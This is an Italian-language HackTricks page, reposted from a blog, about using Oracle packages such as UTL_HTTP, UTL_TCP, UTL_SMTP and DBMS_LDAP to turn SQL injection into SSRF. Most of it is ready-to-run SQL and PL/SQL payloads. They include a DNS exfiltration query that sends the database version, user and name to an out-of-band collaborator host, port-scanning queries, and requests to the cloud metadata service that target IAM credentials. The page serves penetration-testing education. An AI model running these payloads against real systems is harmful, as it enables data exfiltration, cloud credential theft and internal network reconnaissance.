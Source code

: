 # Oracle injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Serve questo post una copia della macchina wayback del post eliminato da [https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/](https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/)**.

## SSRF

Utilizzare Oracle per effettuare richieste HTTP e DNS Out of Band è ben documentato, ma come mezzo per estrarre dati SQL nelle iniezioni. Possiamo sempre modificare queste tecniche/funzioni per fare altre SSRF/XSPA.

Installare Oracle può essere davvero doloroso, specialmente se si desidera impostare un'istanza rapida per provare comandi. Il mio amico e collega di [Appsecco](https://appsecco.com), [Abhisek Datta](https://github.com/abhisek), mi ha indirizzato a [https://github.com/MaksymBilenko/docker-oracle-12c](https://github.com/MaksymBilenko/docker-oracle-12c) che mi ha permesso di impostare un'istanza su una macchina AWS Ubuntu t2.large e Docker.

Ho eseguito il comando docker con il flag `--network="host"` in modo da poter imitare Oracle come un'installazione nativa con accesso completo alla rete, per il corso di questo blogpost.
```
docker run -d --network="host" quay.io/maksymbilenko/oracle-12c
```
#### Pacchetti Oracle che supportano una specifica di URL o di Nome Host/Numero di Porta <a href="#oracle-packages-that-support-a-url-or-a-hostname-port-number-specification" id="oracle-packages-that-support-a-url-or-a-hostname-port-number-specification"></a>

Per trovare eventuali pacchetti e funzioni che supportano una specifica di host e porta, ho eseguito una ricerca su Google nella [Documentazione Online di Oracle Database](https://docs.oracle.com/database/121/index.html). In particolare,
```
site:docs.oracle.com inurl:"/database/121/ARPLS" "host"|"hostname" "port"|"portnum"
```
I risultati della ricerca hanno restituito i seguenti risultati (non tutti possono essere utilizzati per eseguire una rete in uscita)

* DBMS\_NETWORK\_ACL\_ADMIN
* UTL\_SMTP
* DBMS\_XDB
* DBMS\_SCHEDULER
* DBMS\_XDB\_CONFIG
* DBMS\_AQ
* UTL\_MAIL
* DBMS\_AQELM
* DBMS\_NETWORK\_ACL\_UTILITY
* DBMS\_MGD\_ID\_UTL
* UTL\_TCP
* DBMS\_MGWADM
* DBMS\_STREAMS\_ADM
* UTL\_HTTP

Questa ricerca grossolana ovviamente salta pacchetti come `DBMS_LDAP` (che consente di passare un nome host e un numero di porta) poiché [la pagina di documentazione](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360) ti indirizza semplicemente a [un'altra posizione](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360). Pertanto, potrebbero esserci altri pacchetti Oracle che possono essere abusati per effettuare richieste in uscita che potrei aver perso.

In ogni caso, diamo un'occhiata ad alcuni dei pacchetti che abbiamo scoperto e elencato sopra.

**DBMS\_LDAP.INIT**

Il pacchetto `DBMS_LDAP` consente l'accesso ai dati dai server LDAP. La funzione `init()` inizializza una sessione con un server LDAP e prende un nome host e un numero di porta come argomento.

Questa funzione è stata documentata in precedenza per mostrare l'exfiltrazione di dati tramite DNS, come di seguito
```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;
```
Tuttavia, dato che la funzione accetta un nome host e un numero di porta come argomenti, puoi utilizzare questo per funzionare anche come uno scanner di porte.

Ecco alcuni esempi
```
SELECT DBMS_LDAP.INIT('scanme.nmap.org',22) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',25) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',80) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',8080) FROM dual;
```
Un `ORA-31203: DBMS_LDAP: PL/SQL - Init Failed.` indica che la porta è chiusa mentre un valore di sessione indica che la porta è aperta.

**UTL\_SMTP**

Il pacchetto `UTL_SMTP` è progettato per inviare e-mail tramite SMTP. L'esempio fornito sul [sito di documentazione Oracle mostra come puoi utilizzare questo pacchetto per inviare un'email](https://docs.oracle.com/database/121/ARPLS/u_smtp.htm#ARPLS71478). Per noi, tuttavia, la cosa interessante è la possibilità di fornire una specifica di host e porta.

Un esempio rudimentale è mostrato di seguito con la funzione `UTL_SMTP.OPEN_CONNECTION`, con un timeout di 2 secondi.
```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',80,2);
END;
```

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',8080,2);
END;
```
Un `ORA-29276: transfer timeout` mostra che la porta è aperta ma non è stata stabilita alcuna connessione SMTP, mentre un `ORA-29278: SMTP transient error: 421 Service not available` mostra che la porta è chiusa.

**UTL\_TCP**

Il pacchetto `UTL_TCP` e le sue procedure e funzioni consentono la [comunicazione basata su TCP/IP con i servizi](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190). Se programmato per un servizio specifico, questo pacchetto può facilmente diventare un modo per accedere alla rete o eseguire richieste complete lato server, poiché tutti gli aspetti di una connessione TCP/IP possono essere controllati.

L'esempio [sul sito della documentazione Oracle mostra come puoi utilizzare questo pacchetto per stabilire una connessione TCP raw per recuperare una pagina web](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190). Possiamo semplificarlo ulteriormente e usarlo per effettuare richieste all'istanza dei metadati, ad esempio, o a un servizio TCP/IP arbitrario.
```
set serveroutput on size 30000;
SET SERVEROUTPUT ON
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('169.254.169.254',80,tx_timeout => 2);
retval := utl_tcp.write_line(c, 'GET /latest/meta-data/ HTTP/1.0');
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
/
```

```
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('scanme.nmap.org',22,tx_timeout => 4);
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
```
Interessantemente, grazie alla capacità di creare richieste TCP raw, questo pacchetto può essere utilizzato anche per interrogare il servizio di meta-dati dell'istanza di tutti i fornitori di cloud poiché il tipo di metodo e le intestazioni aggiuntive possono essere tutte passate all'interno della richiesta TCP.

**UTL\_HTTP e Richieste Web**

Forse la tecnica più comune e ampiamente documentata in ogni tutorial di Oracle SQL Injection Out of Band è il [`UTL_HTTP` package](https://docs.oracle.com/database/121/ARPLS/u_http.htm#ARPLS070). Questo pacchetto è definito dalla documentazione come - `Il pacchetto UTL_HTTP effettua chiamate Hypertext Transfer Protocol (HTTP) da SQL e PL/SQL. Puoi usarlo per accedere ai dati su Internet tramite HTTP.`
```
select UTL_HTTP.request('http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole') from dual;
```
Puoi inoltre utilizzare questo per eseguire alcune scansioni di porte rudimentali con query come
```
select UTL_HTTP.request('http://scanme.nmap.org:22') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:8080') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:25') from dual;
```
Un `ORA-12541: TNS:no listener` o un `TNS:operation timed out` è un segno che la porta TCP è chiusa, mentre un `ORA-29263: HTTP protocol error` o dati sono un segno che la porta è aperta.

Un altro pacchetto che ho utilizzato in passato con successo variabile è il [`GETCLOB()` metodo del tipo astratto `HTTPURITYPE` di Oracle](https://docs.oracle.com/database/121/ARPLS/t\_dburi.htm#ARPLS71705) che consente di interagire con un URL e fornisce supporto per il protocollo HTTP. Il metodo `GETCLOB()` viene utilizzato per recuperare la risposta GET da un URL come un [tipo di dato CLOB.](https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html)[select HTTPURITYPE('http://169.254.169.254/latest/meta-data/instance-id').getclob() from dual;

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
